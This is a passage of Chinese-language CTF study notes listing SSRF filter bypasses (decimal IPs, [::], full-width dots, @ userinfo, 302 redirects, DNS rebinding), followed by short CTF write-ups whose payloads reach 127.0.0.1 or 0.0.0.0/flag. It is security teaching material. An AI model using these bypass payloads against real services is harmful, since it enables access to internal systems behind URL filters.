 5.ip地址转换成进制来访问 192.168.0.1=3232235521（十进制） 

6.非HTTP协议

7.DNS Rebinding

8.利用[::]绕过                 http://[::]:80/ >>> http://127.0.0.1

9.句号绕过                  127。0。0。1 >>> 127.0.0.1

10.利用302跳转绕过     使用https://tinyurl.com生成302跳转地址



**限制为http://www.xxx.com 域名**

采用http基本身份认证的方式绕过。即@  
`http://www.xxx.com@www.xxc.com`

**限制请求IP不为内网地址**

当不允许ip为内网地址时  
（1）采取短网址绕过  
（2）采取特殊域名  
（3）采取进制转换

**限制请求只为http协议**

（1）采取302跳转  
（2）采取短地址



如果要求host为null，可以构造?url=http:/@<font style="color:#d19a66;">127.0.0.1</font>/flag



# SSRF习题
##  [NSSRound#28 Team]ez_ssrf  
本题限制了127.0.0.1的访问

直接提交?url=[http://0.0.0.0/flag](http://0.0.0.0/flag)即可

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748194191744-95aaf1de-9ade-4437-b64a-9cb3dc8df8b4.png)

<font style="color:rgb(64, 64, 64);">在大多数系统中，</font>`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">0.0.0.0</font>**`<font style="color:rgb(64, 64, 64);"> 会被视为指向本地回环地址（</font>`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">127.0.0.1</font>**`<font style="color:rgb(64, 64, 64);">）</font>

## <font style="color:rgb(64, 64, 64);"> [NISACTF 2022]easyssrf  </font>
<font style="color:rgb(64, 64, 64);">尝试直接访问，给了提示文件</font>

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748197205492-80656832-1d62-4342-b73d-aa82e893ec9e.png)

<font style="color:rgb(64, 64, 64);">得到一个php文件</font>
